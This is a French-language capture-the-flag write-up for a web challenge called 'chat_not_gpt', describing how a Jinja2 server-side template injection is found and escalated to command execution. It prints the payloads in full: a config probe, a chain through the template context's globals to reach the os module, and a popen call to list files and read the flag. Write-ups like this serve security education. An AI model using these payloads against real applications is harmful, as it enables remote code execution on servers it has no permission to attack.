 
# Code source:

Voir https://github.com/9hozt/ctf-challenges/tree/main/HSR2023/web/chat_not_gpt

# Résolution

Nous avons une partie statique correspondant à la question posée et une partie dynamique correspondant à notre input.
De là, on suspecte une *template injection*. Les plus courantes étant sur Jinja2 (Python), on essaie d'accéder en premier lieu à des objets python.

Premier payload (cf Hacktricks, on voit différents objets/fonctions):

```
{{config.class.dict}}
```

L'objectif est d'avoir accès au module os pour RCE.
Je me suis inspiré de cet article: https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/
Second payload:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os}}
```

De là, nous pouvons éxécuter du code:

```
.popen("ls").read() 
```

On n'a plus qu'à se déplacer et afficher le flag avec un cat.

![](./ssti.png)
